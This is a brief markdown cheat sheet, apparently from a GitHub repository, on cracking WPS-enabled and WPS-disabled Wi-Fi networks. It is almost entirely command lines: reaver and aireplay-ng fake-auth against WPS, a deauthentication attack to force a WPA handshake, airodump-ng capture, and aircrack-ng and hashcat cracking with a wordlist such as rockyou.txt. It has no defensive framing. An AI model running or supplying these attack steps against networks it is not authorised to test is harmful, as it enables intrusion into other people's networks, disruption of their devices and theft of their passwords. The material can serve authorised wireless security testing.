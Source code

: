 ```yaml
---
---

### Crack WPS Enabled Networks

````bash
wash --interface <interface>
````

**Output**:  
Lck : Shows if WPS is locked (Can be locked after continuous failed attempts)  
dBm : Signal Strength

````bash
aireplay-ng --fakeauth 30 -a <router-bssid> -h <myadapter-bssid> <interface>
reaver --bssid <router-bssid> --channel <channel> --interface <interface> -vvv --no-associate
````

This attack will fail if PBA is enabled. The only way to confirm is by performing the attack

`--no-associate` flag prevents reaver from connecting to the network if the crack was successful (If not set reaver is found to fail in most of the cases)

---
```


### Crack WPS Disabled Networks

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename> -w <wordlist>
````

Handshake packet is only transferred when an new device connected to the network.
We can force an device to reconnect using an Deauth Attack

````bash
aireplay-ng --deauth <very-small-number> -a <router-bssid> -c <target-bssid> <interface>
````

If we open the .cap file in Wireshark we can see the "EAPOL (Extensible Authentication Protocol over LAN)" Packet  
i.e. The 4-Way Handshake performed by WPA  
For cracking use of `rockyou.txt` wordlist  
The cracking step can be performed using Hashcat more much faster bruteforcing using GPU

````bash
/usr/share/hashcat-utils/cap2hccapx.bin <cap-file> <filename>.hccapx
hashcat -m 2500 -a 3 -o <output-file> <handshake-file> <wordlist>
````
